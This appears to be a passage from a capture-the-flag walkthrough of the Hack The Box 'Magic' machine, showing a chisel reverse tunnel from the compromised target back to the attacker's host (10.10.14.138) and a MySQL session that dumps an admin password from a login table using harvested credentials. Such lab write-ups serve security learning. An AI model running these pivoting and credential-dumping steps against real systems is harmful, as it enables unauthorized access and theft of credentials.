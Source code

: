Lets set up some port forwarding so we can access the DB from our attacking machine:

On kali:

```
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8888 --reverse
```

And on the target:
```
./chisel_1.8.1_linux_amd64 client 10.10.14.138:8888 R:3306:127.0.0.1:3306
```

We can then access the DB from kali:

```
┌──(ryan㉿kali)-[~/HTB/Magic]
└─$ mysql -h 127.0.0.1 -u theseus -piamkingtheseus  
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 15
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.068 sec)

MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.073 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
1 row in set (0.069 sec)
```
